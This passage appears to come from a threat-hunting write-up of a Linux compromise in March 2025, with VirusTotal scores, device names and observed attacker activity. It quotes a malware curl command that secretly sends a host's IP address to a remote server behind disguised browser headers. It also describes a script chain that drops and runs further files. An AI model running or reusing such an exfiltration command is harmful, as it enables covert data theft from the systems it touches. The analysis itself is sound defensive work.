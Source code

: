 **VirusTotal Scores:**
- IP `170.64.230.111`: **3/94**  
- `.bisis`: **N/A**  
- Others: **N/A**

---

### March 8, 2025 — Covert Data Exfiltration

**Device Involved:**  
- `linux-programatic-ajs`

**Observed Activity:**  
`Update` executed a `curl` command to silently send the device’s IP address (`103.108.140.172`) to a remote server (`196.251.73.38:47`), using browser-like headers to disguise the traffic.

```bash
curl --silent "http://196.251.73.38:47/save-data?IP=103.108.140.172" \\
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7" \\
  -H "Accept-Language: en-US,en;q=0.9" \\
  -H "Cache-Control: max-age=0" \\
  -H "Connection: keep-alive" \\
  -H "Upgrade-Insecure-Requests: 1" \\
  --insecure
```

<p align="center">  
  <img src="https://github.com/user-attachments/assets/f780335a-18a6-4043-863c-23c756c3439b" width="700"/>
</p>

**VirusTotal Scores:**
- `Update`: **27/63**  
- IP `196.251.73.38:47`: **N/A**  
- IP `103.108.140.172`: **0/94**

---

### March 14 & 17, 2025 — Advanced Lateral Movement & Recon

#### March 14, 2025

**Device Involved:**  
- `sakel-linux-2`

**Observed Activity:**  
The `History` script executed `Update` within the `.update-logs` directory, creating `.bisis` and `cache`, followed by execution of the `cache` file.

<p align="center">  
  <img src="https://github.com/user-attachments/assets/c4f416f2-61a5-4ee8-9302-1fc3f039cf9d" width="700"/>
  <img src="https://github.com/user-attachments/assets/24e63de5-8840-429c-b10c-9f119c1415cc" width="700"/>
</p>
